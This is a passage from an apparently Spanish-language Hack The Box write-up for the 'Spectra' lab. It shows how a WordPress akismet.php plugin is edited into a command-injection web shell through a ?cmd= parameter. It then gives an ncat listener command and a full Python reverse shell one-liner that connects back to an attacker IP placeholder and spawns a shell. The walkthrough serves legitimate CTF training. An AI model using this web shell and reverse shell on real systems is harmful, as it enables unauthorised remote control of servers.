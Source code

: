   <img src='img/codeinject.png' width='600' alt='Injeccion remota de comandos'>
</div>

## URL Revershell

Una vez editado y actualizado el plugin akismet.php
1. Nos dirigimos a http://spectra.htb/main/wp-content/plugins/akismet/akismet.php
2. agregamos en la url ?cmd=

## URL Revershell

Una vez editado y actualizado el plugin akismet.php
1. Nos ponemos en escucha con ncat -nlvp 4444
2. Nos dirigmos a la ruta del plugin editado http://spectra.htb/main/wp-content/plugins/akismet/akismet.php
3. Agregamos el parametro que llama a la injecion en la url ?cmd=
4. y seguido en la url agregamos la revershell donde debes cambiar el campo <TU IP> por la IP que tengas con la VPN de Hackthebox

```bash
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<div align='center'>